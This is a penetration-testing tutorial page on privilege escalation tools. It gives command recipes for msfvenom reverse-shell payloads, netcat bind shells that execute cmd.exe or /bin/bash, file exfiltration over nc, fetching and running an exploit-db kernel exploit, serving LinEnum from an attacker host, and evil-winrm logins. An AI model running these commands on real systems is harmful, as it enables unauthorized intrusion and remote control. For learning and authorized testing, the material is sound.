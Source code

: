 ```yaml
---
title: Privilege Escalation Tools and Techniques
summary: Understand Privilege Escalation and use of tools
description: Understand Privilege Escalation and use of tools
slug: '/privilege-escalation-tool-and-techniques'
tags: ['privilege escalation', 'penetration testing', 'ethical hacking']
categories: ['ethical hacking']
---
```


## Reverse Shell

Take advantage of the target system's vulnerabilities to initiate a shell session. Here, listener is attacker.

```bash
# Windows Server
msfvenom -p windows/shell_reverse_tcp LHOST=<listener-ip-addr> LPORT=<listener-port> -f exe > shell-x64.exe

nc -lvp <listener-port>

# Now, after you download and run the app. We get the access to victim's shell.

# Java Server
msfvenom -p java/jsp_shell_reverse_tcp lhost=<listener-ip-addr> lport=<listener-port> -f war > shell.war
```

### WinPEAS

```powershell
WinPEASx65.exe systeminfo log=systeminfo.txt # Privilege Escalation
```

### netcat

#### Windows

```powershell
ncat.exe -lp 52000 # Start listening at port 52000

netstat -an | more

# If file doesn't exist it will be created else cleared and redirected.
ncat.exe -lp 55555 > alice.txt
# Append in a file instead.
ncat.exe -lp 55555 >> alice.txt

ncat.exe -lp 10314 -e cmd.exe # -e is executable i.e. cmd.exe

ncat.exe <target-linux-ip-addr> 14618 # Bash shell from Linux
```

#### Linux

```bash
nc <target-windows-ip-addr> 52000 # Linux

# Send content of the bob.txt file.
nc -w 1 <target-windows-ip-addr> 5555 < bob.txt
# If the connection and stdin are idle for more than timeout seconds,
# the connection is closed silently. Default is no timeout.
# `nc` will listen forever for a connection, with or without the -w flag.

nc <target-windows-ip-addr> 10314 # Windows prompt from Linux

nc -lp 14618 -e /bin/bash # bash as executable.

nc -nlvp 5555
# -n: no DNS or service lookups on any addresses, hostnames or port names.
# -l: listen for an incoming connection.
# -v: give more verbose output.
# -p: to specify the local port number.
```

> Note: `>` is output redirection character, `<` is input redirection character.

## exploit-db.com

Based on Linux kernal, VulnOS -> `37292`

```bash
whoami

wget https://www.exploit-db.com/exploits/44298 -O exploit.c

gcc exploit.c -o exploit
chmod 777 exploit
./exploit

whoami
```

## LinEnum

```bash
# Attacker Server
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O LinEnum # or Copy RAW to to LinEnum file.

chmod +x LinEnum

python -m http.server 8000 # Serving http server to host a file to download.

# Victim Client
wget http://<attacker-ip-addr>:8000/LinEnum

./LinEnum
```

## Gobuster - Directory Traversal

```bash
# -u assign target
# -w word list
# -x is list of extensions
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <target-ip-addr>

gobuster dir -w /usr/share/wordlists/dirb/common.txt -x .php,.txt,.html -u <target-ip-addr>
```

## Spawning Bash Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")' # Pseudo-terminal utilities
```

## Root Login on NOPASSWD Sudoer

> `sudo -l`: This command is used to list the allowed (and forbidden) commands for the invoking user (or the user specified by the -U option) on the current host.

> `sudo -i`: This command, also known as sudo --login, starts a new shell as the target user (root by default), and changes to their home directory.

## Window Remote Management (WinRM)

```bash
evil-winrm -i <target-windows-ip-addr> -u 'admin' -p 'pass'
```

> Which metasploit module can be used in this case to abuse Windows Remote Management?
> **auxiliary/scanner/winrm/winrm_login**

## Reference

- https://github.com/ec-council-learning/Pentesting-Fundamentals-for-Beginners
